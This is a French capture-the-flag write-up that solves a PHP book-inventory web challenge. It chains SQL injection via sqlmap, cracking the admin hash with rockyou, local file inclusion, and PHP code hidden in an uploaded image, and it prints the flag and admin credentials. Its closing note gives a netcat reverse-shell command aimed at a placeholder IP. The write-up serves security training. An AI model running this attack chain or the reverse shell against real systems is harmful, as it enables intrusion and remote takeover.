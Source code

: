 # Winventory

### Catégorie

Web

### Description

Une entreprise, PHPBoomer, a créé une application pour gérer vos livres!<br/>
Elle permet notamment d'ajouter des livres, les modifier, les supprimer, ajouter l'endroit où ils sont stockés, marquer la page à laquelle vous êtes, ...<br/>

Cette entreprise est connue pour ne pas trop prendre en compte la sécurité informatique dans le développement de ces projets.<br/>
Vous êtes mandaté pour auditer leur solution!

Format : MCTF{}

### Auteur 

Worty

### Solution

Quand on arrive sur le site, on nous demande de nous créer un compte, on le fait, et on se retrouve sur la page pour gérer nos livres.<br/>
On parcourt l'application, on ajoute une maison, des livres, on les modifie... On voit que pas mal de paramètres sont passés à la base de données.<br/>

On teste donc les paramètres, après plusieurs tests, on se rend compte qu'un des paramètres semblent bizarres, le paramètres "id" quand on modifie un livre depuis la page de recherche. Je vais personnellement utiliser sqlmap pour récupérer le contenu de la base de données:<br/>
![alt](images/sqlmap1.png)
<br/><br/>
Bingo ! Nous avons trouvé le paramètre injectable, et la base de données derrière semble être MySQL. Et la base de données s'appelle "winventory"<br/>
Nous allons continuer notre avancé avec sqlmap, récupérons les tables de cette base:<br/>
![alt](images/sqlmap2.png)
<br/><br/>
La table "users" semble intéressante, car elle peut potentiellement stocker des identifiants administrateurs, nous allons maintenant récupérer les colonnes de cette table:<br/>
![alt](images/sqlmap3.png)
<br/><br/>
Nous récupérons beaucoup de colonnes, mais les plus intéressantes sont données dans l'image ci-dessus. Nous allons maintenant récupérer le contenu de ces tables:<br/>
![alt](images/sqlmap4.png)
<br/><br/>
Bingo ! Notre hypothèse de départ était bonne, il y a bien des identifiants administrateurs, mais le mot de passe semble être hashé.<br/>
Nous allons donc essayer de le casser à l'aide de rockyou:<br/>
![alt](images/mdpcrack.png)
<br/><br/>
Le mot de passe utilisé était très faible: "urfaceismassive", maintenant, nous nous connectons en tant qu'admin avec les identifiants:<br/>
- admin@adminozor.fr/urfaceismassive<br/><br/>
Quand on est connecté en tant qu'administateur, on voit qu'il y a un menu en plus, réservé aux admins:<br/>
![alt](images/adminpage.png)
<br/><br/>
A l'aide de ces deux pages, on peut manager le site et ajouter des images à nos livres (car nous sommes admin). En cliquant sur "Manage" et en regardant le code source, on observe ce commentaire:<br/>
![alt](images/manage.png)
<br/><br/>
Ce paramètre nous permet de réaliser une faille de type LFI (Local File Inclusion), cela pourra potentiellement nous être utile pour la suite du challenge.<br/>
Nous allons donc dans la page d'upload, après un petit peu d'énumération, on se rend compte que le site n'accepte que les images (png et jpg).<br/>
Malheureusement pour les développeurs de cette application, il est possible d'ajouter des commentaires dans une image, dont du PHP, on injecte donc du PHP permettant d'exécuter du code:<br/>
![alt](images/payload.png)
<br/><br/>
L'image est acceptée! Une fois que cela est fait, le site nous propose d'aller la voir, d'apparence, elle paraît normal, mais notre payload est cachée dedans. L'url de l'image (pour ma part) est la suivante:<br/>
![alt](images/urlimage.png)
<br/><br/>
C'est ici que notre LFI va nous être utile, car nous allons inclure cette image pour exécuter notre code PHP, avec l'url récupéré ci-dessus.<br/>
Après de l'énumération, on se rend compte d'un fichier bizarre à la racine: "thisFileIsSecretAndConfidential.txt", essayons de l'afficher avec notre image backdoorée:<br/>
![alt](images/flag.png)
<br/><br/>
Note : Il aurait été aussi possible d'obtenir un reverse shell sur la machine avec une payload du type: "nc <YOUR IP> <PORT> -e /bin/bash".

### Flag

MCTF{th1s_c0mp4ny_d1dnt_c4r3_4b0ut_s3cur1ty}